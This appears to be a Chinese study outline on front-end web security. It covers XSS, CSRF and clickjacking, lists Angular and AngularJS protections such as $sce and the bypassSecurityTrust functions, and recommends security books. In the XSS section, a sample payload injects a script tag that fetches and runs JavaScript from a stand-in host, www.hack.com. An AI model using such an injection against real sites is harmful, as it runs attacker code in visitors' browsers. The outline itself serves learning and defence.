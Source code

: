 ## 大纲
* XSS攻击
* CXRF攻击
* 界面操作劫持
* 漏洞挖掘
* 目前前端项目
* 推荐书籍

### XSS攻击
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

1. HTML中代码注入技巧(196页)
    * 标签注入
    * 属性注入
    * HTML事件
2. CSS代码注入技巧(209页)
    * CSS资源类属性
    * IE独有的expression
3. 更多经典的混淆CheckList(221页)
4. 例子
    * 浏览器记住密码(235)
    *

**能被我们利用插入XSS脚本的地方只有css资源类属性值和@import规则，以及IE浏览器下执行的属性值expression**

### CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

### 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


### 漏洞挖掘

1. csrf漏洞挖掘

    ![csrf](./img/csrf.png)

2. 界面操作劫持漏洞挖掘

    ![csrf](./img/2017-11-15_114735.png)


### 目前前端项目

目前是基于Angular的工程。使用webpack对js代码进行加密，混淆，中文Base64处理。

1. [Angular安全](https://angular.cn/guide/security)
    * bypassSecurityTrustHtml
    * bypassSecurityTrustScript
    * bypassSecurityTrustStyle
    * bypassSecurityTrustUrl
    * bypassSecurityTrustResourceUrl
2. [Angular安全：xsrf-防护](https://angular.cn/guide/http#安全：xsrf-防护)
2. [Angular安全：xssi-防护](https://angular.cn/guide/security#xssi)
3. [Angularjs xss防护：$sce服务](https://docs.angularjs.org/api/ng/service/$sce#use-the-latest-angularjs-possible)
    * trustAsHtml(value)
    * trustAsCss(value)
    * trustAsUrl(value)
    * trustAsResourceUrl(value)
    * trustAsJs(value)

### 书籍

1. [Web前端黑客技术揭秘](https://item.jd.com/12878817351.html) [Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)
2. [白帽子讲Web安全](https://item.jd.com/11483966.html)
3. [白帽子讲Web扫描](https://item.jd.com/15503446687.html)

